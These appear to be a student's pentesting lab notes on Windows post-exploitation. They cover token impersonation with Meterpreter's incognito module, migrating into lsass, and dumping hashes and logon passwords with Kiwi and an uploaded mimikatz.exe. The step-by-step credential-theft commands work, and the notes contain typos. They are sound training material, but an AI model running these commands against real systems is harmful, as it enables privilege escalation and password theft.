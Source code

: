 Impersonate token -> non interactive login (service or domain logon)
Delegate level token -> interactive login or RDP etc

Need the privs
SeAssignPrimaryToken
SeCreateToken
SeImpersonatePrivelege

#### Incognito Module
- List out available access tokens that we can impersonate
- Impersonate tokens

Demo:
usual rejetto
NT Authority/ Local service  --> service acct with local privs

`getprivs`
`load incognito`

`list_tokens -u`
-> Tokens listed out
-> Here, Delegation tokens available

`impersonate_token "ATTACKDEFENCE\Administrator"`
`getuid`

Note: The current process we r operating in is still Local So must migrate
`ps`
`migrate <pid with Administrator>`
`hashdump`
`dir /usr/admin`

Rmb need the SeImpersonatePriveledge

## Dumping hashes with Mimikatz
- extracts from local SAM database
- utilise Kiwi in meterpreter
- Kiwi allows dynamic exection of MiMi evade AVs etc

Demo:
badblue
`set target`
in this case based on wat u see in the browser
`set target BadBlue\ EE\ 2.7\ Universal`

`ps`
`pgrep lsass`
`migrate <pid of lsass>`
`load kiwi`
`creds_all`
`lsa_sam_dump`
`lsa_dump_secrets`

Uploading MiMikats onto target
`upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
`shell`
`.\mimikatz.exe`
	`priveledge::debug` --> ensure correct privs are available
	`sekurlsa:logonpasswords`
	`lsadump::sam`

